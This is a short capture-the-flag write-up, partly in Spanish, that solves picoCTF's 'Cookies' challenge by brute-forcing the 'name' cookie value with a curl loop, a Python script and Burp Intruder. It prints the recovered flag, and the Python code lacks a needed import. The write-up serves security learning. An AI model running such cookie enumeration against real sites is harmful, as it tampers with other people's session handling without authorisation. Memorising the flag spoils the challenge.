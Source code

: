 
## Objetivo
Who doesn't love cookies? Try to figure out the best one. [http://mercury.picoctf.net:29649/](http://mercury.picoctf.net:29649/)
## Solución
```bash
┌──(kali㉿kali)-[~]
└─$ for i in {0..30}; do curl -s http://mercury.picoctf.net:29649/check -H "Cookie: name=$i"; done | grep "picoCTF{"
            <p style="text-align:center; font-size:30px;"><b>Flag</b>: <code>picoCTF{3v3ry1_l0v3s_c00k135_a1f5bdb7}</code></p>
                           
```

## Código en python (exploit)
```python
import requests
 
url="http://mercury.picoctf.net:29649/check"
 
for i in range(20):
        print(i)
        cookies= {'name':f'{i}'}
        r = requests.get(url,cookies=cookies)
        if 'picoCTF{' in r.text:
                flag=re.findall('picoCTF\\{.*?\\}',r.text)[0]
                print(flag)


```

## Solucion 3
En burpsuite interceptamos la solicitud e ingresamos al intruder para configurar un payload
![[Pasted image 20240925212520.png]]

Y en la solicitud 18 obtenemos la respuesta
![[Pasted image 20240925212734.png]]
## Notas Adicionales

## Referencias